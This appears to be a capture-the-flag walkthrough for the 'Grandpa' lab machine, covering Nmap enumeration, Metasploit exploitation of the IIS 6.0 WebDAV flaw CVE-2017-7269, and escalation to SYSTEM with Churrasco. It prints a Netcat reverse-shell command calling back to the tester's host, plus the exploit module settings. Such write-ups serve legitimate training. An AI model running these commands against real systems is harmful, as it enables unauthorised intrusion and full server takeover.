



# Grandpa - Penetration Testing Walkthrough (Extended Markdown Report)

This report provides a complete penetration testing walkthrough for the **Grandpa** machine (IP: `10.129.65.28`).  
It follows the same professional structure as previous reports and includes enumeration, vulnerability identification, exploitation, and privilege escalation steps.  
All referenced images are linked as `images/imageX.png`.

---

## 🧭 Enumeration

We began the reconnaissance phase with a comprehensive **Nmap** scan to identify active services and potential vulnerabilities:

```bash
nmap -p- -Pn 10.129.65.28 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.65.28 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.65.28 -v --script vuln -oN nmap_vuln.txt
```


The scan results revealed that the target was running **Microsoft IIS 6.0** on port **80 (HTTP)** — an older and well-known vulnerable service.

---

## 🧠 Vulnerability Identification: CVE-2017-7269 (IIS 6.0 WebDAV RCE)

During the service version scan, we identified **Microsoft IIS HTTPD 6.0**, which is affected by the **CVE-2017-7269** vulnerability.

### 🔍 Background on CVE-2017-7269

This vulnerability affects the **WebDAV** extension in IIS 6.0 on Windows Server 2003.  
It occurs due to improper validation of the `PROPFIND` request headers, which can lead to a **buffer overflow** in the `ScStoragePathFromUrl` function.  
Attackers can exploit this by sending a specially crafted HTTP request containing malicious Unicode characters, resulting in **remote code execution** (RCE) with the privileges of the web server process.

In essence, this exploit allows full remote command execution on an unpatched IIS 6.0 server — ideal for achieving an initial foothold.


---

## ⚔️ Exploitation with Metasploit

Using the **Metasploit Framework**, we searched for and executed the appropriate exploit module for CVE-2017-7269.

```bash
msfconsole
search iis_webdav_scstoragepathfromurl
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.65.28
set LHOST 10.10.15.30
set LPORT 4444
run
```

The exploit was successfully executed, resulting in a **meterpreter shell** as `IUSR_GRANDPA` (the default IIS worker user).


---

## 🧩 Local Enumeration and Privilege Escalation Analysis

Once inside the system, we used **Meterpreter’s local exploit suggester** to identify possible privilege escalation paths.

```bash
run post/multi/recon/local_exploit_suggester
```




The results listed multiple kernel-level privilege escalation options. However, none of them were reliable in our testing environment.  
Therefore, we proceeded to attempt manual privilege escalation.

---

## 🧠 Manual Privilege Escalation (Churrasco + Netcat)

We transferred **Churrasco.exe** (a known Windows privilege escalation tool for Windows Server 2003) and **nc.exe** (Netcat) onto the target.  
Churrasco exploits the **SeImpersonatePrivilege** privilege to spawn a SYSTEM-level shell.


### Commands Used

```bash
C:\Inetpub\wwwroot> churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.15.30 5555"
```

This command executes Netcat as a reverse shell, connecting back to our machine on port 5555.  
Once the listener received the connection, we had **NT AUTHORITY\SYSTEM** privileges.



---

## 🏁 Root Access and Flag Retrieval

With system-level privileges established, we navigated to the Administrator’s desktop and retrieved both the **user** and **root** flags.



**User Flag Path:**  
```
C:\Documents and Settings\Harry\Desktop\user.txt
```

**Root Flag Path:**  
```
C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

The **Grandpa** machine showcases a classic example of exploiting outdated web infrastructure.  
Through methodical enumeration and exploitation of a publicly known vulnerability, we achieved full system compromise.

**Summary of Steps:**
1. **Enumeration:** Identified IIS 6.0 via Nmap.  
2. **Vulnerability Discovery:** Found and confirmed CVE-2017-7269 (WebDAV buffer overflow).  
3. **Exploitation:** Used Metasploit to gain an initial foothold.  
4. **Privilege Escalation:** Performed manual escalation via Churrasco and Netcat.  
5. **System Compromise:** Achieved NT AUTHORITY\SYSTEM access and obtained both flags.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Initial Scanning |
| **Metasploit Framework** | Exploit CVE-2017-7269 for initial access | Exploitation |
| **Local Exploit Suggester (Metasploit)** | Identify privilege escalation opportunities | Post-Exploitation |
| **Churrasco.exe** | Manual privilege escalation via SeImpersonatePrivilege | Privilege Escalation |
| **nc.exe (Netcat)** | Establish reverse shell connection | Privilege Escalation |
| **Windows CMD / PowerShell** | File transfer and shell management | Post-Exploitation |

---

**User Flag Path:** `C:\Documents and Settings\Harry\Desktop\user.txt`  
**Root Flag Path:** `C:\Documents and Settings\Administrator\Desktop\root.txt`

---
